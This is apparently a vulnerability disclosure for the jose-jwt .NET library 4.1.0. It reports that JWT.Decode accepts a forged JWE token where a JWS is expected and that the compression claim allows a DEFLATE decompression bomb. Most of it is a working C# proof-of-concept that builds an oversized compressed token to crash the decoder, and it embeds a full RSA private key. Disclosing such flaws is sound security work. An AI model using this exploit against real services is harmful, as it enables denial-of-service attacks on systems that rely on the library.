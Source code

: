 # dvsekhvalnov/jose-jwt has a Dos problem

## 0x01 Affected version

vendor: https://github.com/dvsekhvalnov/jose-jwt

version: 4.1.0

.NET version: 9

## 0x02 Vulnerability description

`Jose.JWT.Decode` will automatically detect whether the user inputs JWS or JWE. This means that if the attacker obtains the public key of JWS, he can forge a JWE Token to pass the verification.

What's more, the attacker can use the "zip" claim to construct a DEFLATE Decompression bomb to crash or DOS a system.

## 0x03 POC

```C#
using Jose;

class Program
{
    static void Main()
    {
        Jwk Key = new Jwk(
            e: "AQAB",
            n: "qFZv0pea_jn5Mo4qEUmStuhlulso8n1inXbEotd_zTrQp9K0RK0hf7t0K4BjKVhaiqIam4tVVQvkmYeBeYr1MmnO_0N97dMBz_7fmvyv0hgHaBdQ5mR5u3LTlHo8tjRE7-GzZmGs6jMcyj7HbXobDPQJZpqNy6JjliDVXxW8nWJDetxGBlqmTj1E1fr2RCsZLreDOPSDIedG1upz9RraShsIDzeefOcKibcAaKeeVI3rkAU8_mOauLSXv37hlk0h6sStJb3qZQXyOUkVkjXIkhvNu_ve0v7LiLT4G_OxYGzpOQcCnimKdojzNP6GtVDaMPh-QkSJE32UCos9R3wI2Q",
            p: "0qaOkT174vRG3E_67gU3lgOgoT6L3pVHuu7wfrIEoxycPa5_mZVG54SgvQUofGUYEGjR0lavUAjClw9tOzcODHX8RAxkuDntAFntBxgRM-IzAy8QzeRl_cbhgVjBTAhBcxg-3VySv5GdxFyrQaIo8Oy_PPI1L4EFKZHmicBd3ts",
            q: "zJPqCDKqaJH9TAGfzt6b4aNt9fpirEcdpAF1bCedFfQmUZM0LG3rMtOAIhjEXgADt5GB8ZNK3BQl8BJyMmKs57oKmbVcODERCtPqjECXXsxH-az9nzxatPvcb7imFW8OlWslwr4IIRKdEjzEYs4syQJz7k2ktqOpYI5_UfYnw1s",
            d: "lJhwb0pKlB2ivyDFO6thajotClrMA3nxIiSkIUbvVr-TToFtha36gyF6w6e6YNXQXs4HhMRy1_b-nRQDk8G4_f5urd_q-pOn5u4KfmqN3Xw-lYD3ddi9qF0NLeTVUNVFASeP0FFqbPYfdNwD-LyvwjhtT_ggMOAw3mYvU5cBfz6-3uPdhl3CwQFCTgwOud_BA9p2MPMUHG82wMK_sNO1I0TYpjm7TnwNBwiKbMf-i5CKnuohgoYrEDYLeMg3f32eBljlCFNYaoCtT-mr1Ze0OTJND04vbfLotV-BBKulIpbOOSeVpKG7gJxZHmv7in7PE5_WzaxKFVoHW3wR6v_GzQ",
            dp: "KTWmTGmf092AA1euOmRQ5IsfIIxQ5qGDn-FgsRh4acSOGE8L7WrTrTU4EOJyciuA0qz-50xIDbs4_j5pWx1BJVTrnhBin9vNLrVo9mtR6jmFS0ko226kOUpwEVLgtdQjobWLjtiuaMW-_Iw4gKWNptxZ6T1lBD8UWHaPiEFW2-M",
            dq: "Jn0lqMkvemENEMG1eUw0c601wPOMoPD4SKTlnKWPTlQS6YISbNF5UKSuFLwoJa9HA8BifDrD-Mfpo1M1HPmnoilEWUrfwMqqdCkOlbiJQhKY8AZ16QGH50kDXhmVVa8BRWdVQWBTUzWXS5kXMaeskVzextTgymPcOAhXN-ph7MU",
            qi: "sRAPigJpl8S_vsf1zhJTrHM97xRwuB26R6Tm-J8sKRPb7p5xxNlmOBBFvWmWxdto8dBElNlydSZan373yBLxzW-bZgVp-B2RKT1B3WhTYW_Vo5DLhWi84XMncJxH7avtxtF9yksaeKe0e2n3J6TTan53mDg4KF8U0OEO2ciqO9g"
        );

        Jwk PubKey = new Jwk(
            e: "AQAB",
            n: "qFZv0pea_jn5Mo4qEUmStuhlulso8n1inXbEotd_zTrQp9K0RK0hf7t0K4BjKVhaiqIam4tVVQvkmYeBeYr1MmnO_0N97dMBz_7fmvyv0hgHaBdQ5mR5u3LTlHo8tjRE7-GzZmGs6jMcyj7HbXobDPQJZpqNy6JjliDVXxW8nWJDetxGBlqmTj1E1fr2RCsZLreDOPSDIedG1upz9RraShsIDzeefOcKibcAaKeeVI3rkAU8_mOauLSXv37hlk0h6sStJb3qZQXyOUkVkjXIkhvNu_ve0v7LiLT4G_OxYGzpOQcCnimKdojzNP6GtVDaMPh-QkSJE32UCos9R3wI2Q"
        );
        string strU = new string('U', 400000000);
        string strUU = new string('U', 100000000);
        string payload = $@"{{""U"":""{strU}"", ""UU"":""{strUU}""}}";
        string eviltoken = Jose.JWT.Encode(payload, PubKey, JweAlgorithm.RSA_OAEP, JweEncryption.A256GCM, JweCompression.DEF);
        string s = Jose.JWT.Decode(eviltoken, Key, JwsAlgorithm.RS256);
        Console.WriteLine(s);
    }
}
```

